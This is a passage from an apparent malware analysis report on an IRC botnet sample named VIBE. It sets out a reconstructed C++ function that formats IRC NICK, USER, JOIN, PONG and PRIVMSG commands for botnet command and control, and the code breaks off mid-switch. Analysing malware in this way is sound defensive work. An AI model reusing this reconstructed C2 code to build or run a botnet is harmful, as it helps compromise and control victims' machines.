 These functions demonstrate the malware's network infrastructure setup capabilities, providing robust hostname resolution and network stack initialization for its command and control and spreading operations.

### 23. VIBE::format_and_send_irc_command

**Purpose**: Formats and sends IRC protocol commands for botnet command and control communication.

**Location**: Function located at address 0x404752

**Key Features**:
- IRC protocol formatting
- Multiple command types
- Buffer management
- Network transmission

**Implementation Details**:
```cpp
int format_and_send_irc_command(
    SOCKET sock,
    int cmd_type,
    const char* param1,
    const char* param2
) {
    char cmd_buffer[0x40] = {0};
    char msg_buffer[0x200] = {0};
    
    // Format command based on type
    switch (cmd_type) {
        case 0:  // NICK
            strncpy(cmd_buffer, "NICK", 0x3f);
            _snprintf(msg_buffer, 0x1ff, 
                     "%s %s\r\n", 
                     cmd_buffer, param1);
            break;
            
        case 1:  // USER
            strncpy(cmd_buffer, "USER", 0x3f);
            _snprintf(msg_buffer, 0x1ff,
                     "%s %s \"\" \"x\" :%s\r\n",
                     cmd_buffer, param1, param1);
            break;
            
        case 2:  // PONG
            strncpy(cmd_buffer, "PONG", 0x3f);
            _snprintf(msg_buffer, 0x1ff,
                     "%s %s\r\n",
                     cmd_buffer, param1);
            break;
            
        case 3:  // JOIN
            strncpy(cmd_buffer, "JOIN", 0x3f);
            _snprintf(msg_buffer, 0x1ff,
                     "%s %s %s\r\n",
                     cmd_buffer, param1, param2);
            break;
            
        case 4:  // PRIVMSG
            strncpy(cmd_buffer, "PRIVMSG", 0x3f);
            _snprintf(msg_buffer, 0x1ff,
                     "%s %s :%s\r\n",
                     cmd_buffer, param2, param1);
            break;
            
        default:
```